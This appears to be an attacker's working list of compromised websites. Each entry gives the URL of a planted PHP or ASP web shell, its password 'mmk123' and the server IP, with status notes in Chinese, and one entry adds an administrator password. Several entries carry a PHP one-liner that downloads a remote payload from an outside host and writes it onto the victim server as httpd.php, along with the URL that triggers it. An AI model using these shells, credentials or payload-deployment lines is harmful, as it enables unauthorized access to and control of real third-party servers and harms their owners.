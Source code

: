 http://www.dyhuayuan.cn/core.php |mmk123 |  211.149.190.167
http://chnzttrading.com/aasaa.php |mmk123 |  211.149.190.167
http://www.sdmlqp.com/basic.php |mmk123 |  211.149.190.167
http://www.zbhzjc.com/aasaa.php |mmk123 |  211.149.190.167
http://btqgy.com/.bhbdlbl.php |mmk123 |  211.149.190.167
http://www.dyxqmj.com/basic.php |mmk123 |  211.149.190.167
http://www.zbjrbw.com/configs.php |mmk123 |  No ID found
http://guoyinjx.com/core.php |mmk123 |  211.149.190.167
http://sddayunxx.com/indexbak.php |mmk123 |  211.149.190.167
http://rdtce.com/core.php |mmk123 |  211.149.190.167
http://sdmlqp.com/aasaa.php |mmk123 |  211.149.190.167
http://dayunxx.com/.xsZml.php |mmk123 |  211.149.190.167
http://zbguanlong.com/.zlhpnpr.php |mmk123 |  211.149.190.167
http://zbyinyizhiye.com/common.php |mmk123 |  211.149.190.167
http://sdrechem.com/core.php |mmk123 |  211.149.190.167
http://www.sdygsteel.com/info.php |mmk123 |  211.149.190.167
http://ruience.com/core/lang/zh-cn.php |mmk123 |  211.149.190.167

https://www.crusher-world.com/Upload/_thumbs/Files/11.php |mmk123 |  150.109.70.87
代码更新：0608 ✅
https://www.crusher-world.com/Install/httpd.php
<?php file_put_contents("../Data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.crusher-world.com/Data/httpd.php?d=up

https://shredder-world.com/diy/22.php |mmk123 |  150.109.70.87
代码更新：0608 ✅
https://shredder-world.com/down/httpd.php
<?php file_put_contents("../job/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://shredder-world.com/job/httpd.php?d=up

https://utmachines.com/skin/js/2m12.php |mmk123 |  150.109.70.87 | 连接不上

https://ru.gearbox-world.com/Qiniu/2m12.php |mmk123 |  150.109.70.87 | 原链接打不开
https://www.taiyedrill.com/static/upload/image/20220827/3m.php |mmk123 |  47.92.31.194

https://www.huaeda.com/static/upload/image/20180413/2m12.php |mmk123 |  121.42.118.20 | 建立不了文件

http://hgkjds.cn/static/upload/image/20221024/3m.php |mmk123 |  103.96.148.48
代码更新：0608 ✅
http://hgkjds.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://hgkjds.cn/config/httpd.php?d=up

http://zktycataly.com//uploads/170311/12.asp |mmk123 |  103.56.113.2 | 连接不上

http://ehotsoft.com/uploads/160817/12.asp |mmk123 |  103.56.113.2

http://en.shanjiu.cn/static/upload/image/20230721/12.asp |mmk123 |administrator }$d3n/8Yx5FBz:L | 106.54.62.234
代码更新：0608 ✅
http://en.shanjiu.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://en.shanjiu.cn/config/httpd.php?d=up
